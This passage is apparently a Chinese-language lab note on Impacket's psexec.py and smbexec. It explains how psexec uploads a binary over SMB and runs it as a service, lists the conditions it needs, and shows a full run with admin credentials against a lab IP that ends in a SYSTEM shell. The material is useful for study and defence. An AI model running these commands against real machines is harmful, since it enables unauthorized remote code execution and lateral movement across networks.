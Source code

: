 # 一、psexec.py
1、原理

（1）通过管道上传一个二进制文件到目标机器C:\Windows目录下

（2）创建一个服务然后执行二进制文件

（3）运行结束删除服务和二进制文件。

（4）二进制文件名和服务名称均随机。

2、缺点

创建和删除服务的时候会产生大量的日志，二进制文件不免杀

3、连接条件

开启445/TCP、IPC$或非IPC$的任意<font style="color:#DF2A3F;">可写共享</font>，默认情况下C$和admin$是开启的，因为psexec要往目标主机写文件。

4、连接过程

```powershell
(base) C:\root> impacket-psexec sec/administrator:'Az123456@'@172.16.80.189 -debug
Impacket v0.11.0 - Copyright 2023 Fortra

[+] Impacket Library Installation Path: /root/anaconda3/lib/python3.9/site-packages/impacket
[+] StringBinding ncacn_np:172.16.80.189[\pipe\svcctl]
[*] Requesting shares on 172.16.80.189.....
[*] Found writable share ADMIN$
[*] Uploading file FgKDucly.exe
[*] Opening SVCManager on 172.16.80.189.....
[*] Creating service iufT on 172.16.80.189.....
[*] Starting service iufT.....
[!] Press help for extra shell commands
[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
Microsoft Windows [�汾 10.0.17763.1339]

[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
(c) 2018 Microsoft Corporation����������Ȩ����

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32>
```

# 二、smbexec
## 1、原理
（1）通过管道上传一个bat到目标机器C:\Windows\temp\execute.bat

